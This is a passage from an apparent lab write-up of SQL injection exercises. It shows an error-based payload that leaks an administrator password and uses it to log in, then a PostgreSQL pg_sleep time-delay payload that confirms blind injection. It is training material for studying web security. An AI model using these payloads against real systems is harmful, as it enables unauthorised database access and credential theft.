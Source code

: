 - **Payload**:
  ```sql
  TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
  ```

- **Response**: Error revealing the password: `92xxhtubhmgxhsyhhldk`.

![image](https://github.com/user-attachments/assets/61c938e7-a0f3-4329-84e1-04eb196c4552)

- **Note**: `LIMIT 1` ensures only the first row (administrator’s data) is returned, bypassing the need for `WHERE username='administrator'`.

### Step 5: Administrator Login
- **Credentials**: `administrator:92xxhtubhmgxhsyhhldk`
- **Result**: Successful login to the shopping website.

![image](https://github.com/user-attachments/assets/42b34b7b-3a4d-47eb-9903-37828436d5ba)


---

### LAB 14 - Blind SQL injection with time delays

### Lab Description

![image](https://github.com/user-attachments/assets/ccb60dcf-973b-4a01-b481-b4dacd804a31)

### Solution

SLEEP command differs for each type of databse, here we find it by trial & error method that it is a POSTgreSQL database

![image](https://github.com/user-attachments/assets/1e58ea3d-294c-474f-be18-49a611d02819)


To do this we can use the following payload 

```sql
TrackingId=x'||pg_sleep(10)--
```

![image](https://github.com/user-attachments/assets/49ef139c-addf-4cef-9922-fd71335b0d6b)

Response

![image](https://github.com/user-attachments/assets/537a4b54-5e26-4e52-b1a7-d87cc7f553e8)

We get a response after 10 sec which confirms the SQL injection vulnerability.

![image](https://github.com/user-attachments/assets/5076d3bf-e1dc-419d-b2c9-683abe066144)

---

### LAB 15 - Blind SQL injection with time delays and information retrieval
